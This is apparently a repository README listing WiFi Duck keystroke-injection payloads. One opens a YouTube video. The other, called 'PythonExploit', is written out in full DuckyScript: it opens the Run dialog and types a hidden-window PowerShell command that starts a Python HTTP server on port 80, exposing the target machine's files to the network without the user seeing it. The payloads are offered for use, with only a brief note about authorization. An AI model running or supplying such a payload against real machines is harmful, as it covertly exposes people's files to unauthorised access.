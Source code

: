 # wifiduck
WifiDuck payloads

YouTube.txt
1. Open Google Chrome
2. Wait for Chrome to open (Delay: 2 seconds)
3. Press Enter (to confirm the selection of Chrome)
4. Wait for Chrome to fully load (Delay: 2 seconds)
5. Press Alt + D (to focus on the address bar)
6. Wait for the address bar to be focused (Delay: 2 seconds)
7. Type the URL "https://www.youtube.com/watch?v=xvFZjo5PgG0"
8. Press Enter

PythonExploit.txt
This payload script aims to execute a Python HTTP server exploit by leveraging PowerShell. It's important to note that this script assumes the target system has Python 3 installed.

Here's a breakdown of the payload:

DELAY 300                   # Delay for 300 milliseconds
GUI r                       # Simulate pressing Win + R to open the Run dialog
DELAY 100                   # Delay for 100 milliseconds
STRING powershell -w hidden python3 -m http.server 80  # Type the PowerShell command to start a Python HTTP server on port 80
DELAY 100                   # Delay for 100 milliseconds
ENTER                       # Simulate pressing Enter to execute the command

This script sequence opens the "Run" dialog by simulating the keystroke of Win + R, then enters a PowerShell command that starts a Python HTTP server on port 80. Finally, it simulates pressing Enter to execute the command.

However, please note that this script may not work as expected if Python 3 is not installed on the target system, and executing commands like this can raise security concerns. Always ensure that you have appropriate permissions and authorization before running such scripts.
